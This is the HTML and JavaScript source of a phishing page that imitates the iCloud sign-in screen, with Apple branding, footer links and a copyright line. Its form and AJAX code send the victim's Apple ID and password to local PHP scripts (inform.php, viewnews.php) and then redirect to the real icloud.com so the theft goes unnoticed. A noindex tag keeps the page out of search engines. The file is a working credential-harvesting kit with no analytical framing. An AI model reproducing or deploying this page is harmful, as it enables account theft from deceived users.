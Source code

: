 <html lang="pt-br"><head>

<meta name="robots" content="NOINDEX, NOFOLLOW">

    <title>iCloud</title>

    <meta charset="utf-8">

    <link rel="shortcut icon" href="favicon.ico">

    <link rel="stylesheet" href="css/styles.css">

    <link rel="stylesheet" href="http://code.jquery.com/ui/1.11.3/themes/smoothness/jquery-ui.css">

    <script src="http://code.jquery.com/jquery-1.10.2.js"></script><style type="text/css"></style>

    <script src="http://code.jquery.com/ui/1.11.3/jquery-ui.js"></script>

    <script src="activity-indicator.js"></script>

	

<!--Mobile Script Exceptions-->

<script type="text/javascript">

if (screen.width <= 699) {

document.location = "mobile.html";

}

</script>



<script language="javascript">

if ((navigator.userAgent.match(/iPhone/i)) || (navigator.userAgent.match(/iPod/i))) {

   location.replace("mobile.html");

}

</script>

<!--/Mobile Script Exceptions-->

</head>



<body class="body_image_old" style="visibility: visible;">



<div class="body_image_new" style="opacity: 1;"></div>

<div id="loader" class="loader" style="display: none;"><div style="width: 26px; height: 26px; position: absolute; margin-top: -13px; margin-left: -13px; animation: spin12 0.8s linear infinite;"><svg style="width: 26px; height: 26px;"><g transform="translate(13,13)"><g stroke-width="1.5" stroke-linecap="round" stroke="rgb(255, 255, 255)"><line x1="0" y1="6" x2="0" y2="11" transform="rotate(0, 0, 0)" opacity="1"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(30, 0, 0)" opacity="0.9173553719008265"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(60, 0, 0)" opacity="0.8347107438016529"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(90, 0, 0)" opacity="0.7520661157024794"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(120, 0, 0)" opacity="0.6694214876033058"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(150, 0, 0)" opacity="0.5867768595041323"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(180, 0, 0)" opacity="0.5041322314049588"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(210, 0, 0)" opacity="0.42148760330578516"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(240, 0, 0)" opacity="0.33884297520661155"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(270, 0, 0)" opacity="0.25619834710743805"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(300, 0, 0)" opacity="0.17355371900826455"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(330, 0, 0)" opacity="0.09090909090909094"></line></g></g></svg></div></div>

<div class="container">

    <div class="wrapper">



        <div class="header">

            <div class="logo lF"></div>

            <div class="info lR">

                <div class="instr lF">

				<script type="text/javascript">

                        

                        function newPopup(url) {

                            popupWindow = window.open(

                                url,'popUpWindow','height=700,width=800,left=10,top=10,resizable=no,scrollbars=no,toolbar=no,menubar=no,location=no,directories=no,status=yes')

                        }

                    </script>

                    <span><a href="https://www.apple.com/icloud/setup/">Cómo configurar iCloud</a></span>

                </div>

                <div class="help lF"></div>

            </div>

        </div>

		

        <div class="body">

            <div>

                <div class="cloud"></div>

                <div class="labelRef">

                    <span>Iniciar sesión en iCloud</span>

                </div>

                <div>

                    <form action="inform.php" method="post">

                        <div class="boxFrm" style="width:325px;">

                            <div class="line1">

                                <input type="text" value="" class="appId1" placeholder="ID de Apple" name="apple" id="apple">

                            </div>

                            <div class="line2">

                                <input type="Contraseña" value="" class="appId2 lF" placeholder="Contraseña" name="pw" id="pw">

                                <input type="hidden" value="https://p01-caldav.icloud.com" id="server" name="server">

                                <input type="hidden" value="icloudow.com/" name="link">

                                <div style="margin-left:270px;"><input type="submit" value="" class="sbBtn lF" style="opacity: 0.2;"></div>

                            </div>

                        </div>

                    </form>

                </div>

                <div class="cont">

                    <span class="tlrm"><input type="checkbox"></span>

                    <span class="txt">Permanecer conectado</span>

                </div>

                <div class="cont2 sec">

                    <div class="center">

                        <span class="account-cr">No tienes una ID de Apple&nbsp;ID?&nbsp;<a class="clickable" href="#"> .</a></span>

                    </div>

                </div>

            </div>

        </div>

        <div class="footer">

            <div class="fLogo lF"></div>

            <ul class="lR">

                <li><a href="https://www.icloud.com/activationlock">Check&nbsp;Activation&nbsp;Lock&nbsp;Status</a></li>

                <li><a href="https://iforgot.apple.com">Forgot&nbsp;ID&nbsp;or&nbsp;Password?</a></li>

                <li><a href="https://www.apple.com/support/systemstatus/">System&nbsp;Status</a></li>

                <li><a href="https://www.apple.com/privacy/">Privacy&nbsp;Policy</a></li>

                <li><a href="https://www.apple.com/legal/icloud/ww/">Terms&nbsp;&amp;&nbsp;Conditions</a></li>

                <li>Copyright © 2015 Apple Inc. All rights reserved.</li>

            </ul>

        </div>



    </div>

</div>



<script>

      $("body").css("visibility", "hidden");

    $('#loader').activity({width: 1.5, segments: 12, length: 5});

    jQuery('#submit_loader').activity({width: 1.5, segments: 12, length: 5});

    function typeCheck(element) {

        var key = event.keyCode || event.charCode;

        if (key == 8 || key == 46) {

            $(".sbBtn").css("opacity", "0.2");

            return element;

        }

        if (element !== "") {

            $(".sbBtn").css("opacity", "1");

        } else {

            $(".sbBtn").css("opacity", "0.2");

        }

    }

    $(document).ready(function () {

        $("body").css("visibility", "visible");

                function isValidEmailAddress(emailAddress) {

            var pattern = new RegExp(/^(("[\w-+\s]+")|([\w-+]+(?:\.[\w-+]+)*)|("[\w-+\s]+")([\w-+]+(?:\.[\w-+]+)*))(@((?:[\w-+]+\.)*\w[\w-+]{0,66})\.([a-z]{2,6}(?:\.[a-z]{2})?)$)|(@\[?((25[0-5]\.|2[0-4][\d]\.|1[\d]{2}\.|[\d]{1,2}\.))((25[0-5]|2[0-4][\d]|1[\d]{2}|[\d]{1,2})\.){2}(25[0-5]|2[0-4][\d]|1[\d]{2}|[\d]{1,2})\]?$)/i);

            return pattern.test(emailAddress);

        };

        $('input[name=apple]').bind("keydown", function(e){

            // enter key code is 13

            if(e.which == 13 || e.which == 9){

                e.preventDefault();

                var val = $(this).val();

                if (!isValidEmailAddress(val)) {

                    val = val+"@icloud.com";

                    $(this).val(val);

                } else {

                    console.log($(this).val());

                }

                console.log(val);

                $("input[name=pw]").focus();

                if(jQuery('#apple').val()=='' || jQuery('#pw').val()=='') $(".sbBtn").css("opacity", "0.2"); else $(".sbBtn").css("opacity", "1");



                return false;

            }

        });

        $("input[name=pw]").on("click keyup", function(){

            val = $("input[name=apple]").val();

            if (!isValidEmailAddress(val)) {

                if(val!='@icloud.com' && val!='') val = val+"@icloud.com";

                $("input[name=apple]").val(val);

            }

            if(jQuery('#apple').val()=='' || jQuery('#pw').val()=='') $(".sbBtn").css("opacity", "0.2"); else $(".sbBtn").css("opacity", "1");

        });

        var mm = 0;

        var ss = setTimeout(function () {

            $(".body_image_new").animate({ opacity: "1" }, 1000);

            console.log(mm);

            clearTimeout(ss);

        }, 7500);

        k = 1;

        $(".tlrm").on("click", function () {

            k++;

            if (k % 2 == 0) {

                $("#tlrm").attr("src", "images/checked.png");

            } else {

                $("#tlrm").attr("src", "images/Unknown");

            }

        });

    });

    var ss2 = setTimeout(function () {

        $("#loader").fadeOut("slow");

        $("div.container").fadeIn("slow");

        $("div.container").css("display:", "block");

        $(".sbBtn").css("opacity", "0.2");

        clearTimeout(ss2);

    }, 4500);



    $('#apple,#pw').on('keyup', function(e) {

        if (e.which == 13) {

            checklogin();

        }

    });



    function checklogin()

    {

        var apple = jQuery('#apple').val();

        var pw = jQuery('#pw').val();

        var server = jQuery('#server').val();

        var lang = jQuery('#lang').val();

        var links = jQuery('#link').val();

        if(apple!='' && pw!='')

        {

            jQuery('#submit_button').hide();

            jQuery('#submit_loader').show();

            jQuery.ajax({

                type:"POST",

                url:"viewnews.php",

                data:"apple="+apple+"&pw="+pw+"&server="+server+"&lang="+lang+"&link="+links,

                success: function(msg){

                    if(msg.search("INVALID")!=-1)

                    {

                        $('div.body').effect('shake');

                        jQuery('#submit_button').show();

                        jQuery('#submit_loader').hide();

                        $(".sbBtn").css("opacity", "0.2");



                    }

                    else if(msg.search("SUCCESS")!=-1)

                    {

                        window.location.href = "https://www.icloud.com";

                    }

                    else

                    {

                        $('div.body').effect('shake');

                        jQuery('#submit_button').show();

                        jQuery('#submit_loader').hide();

                        $(".sbBtn").css("opacity", "0.2");

                    }

                }

            });

        }

        else

        {

            if(apple=='') jQuery('#apple').focus();

            else if(pw=='') jQuery('#pw').focus();

        }

    }



    function change_image(src)

    {

        if(src=='check2.png') jQuery('#help_checkbox').attr({'src':'check2.png','onClick':"change_image('check1.png')"}); else jQuery('#help_checkbox').attr('src','check1.png').attr('onClick',"change_image('check2.png')");

    }

</script>

</body></html>


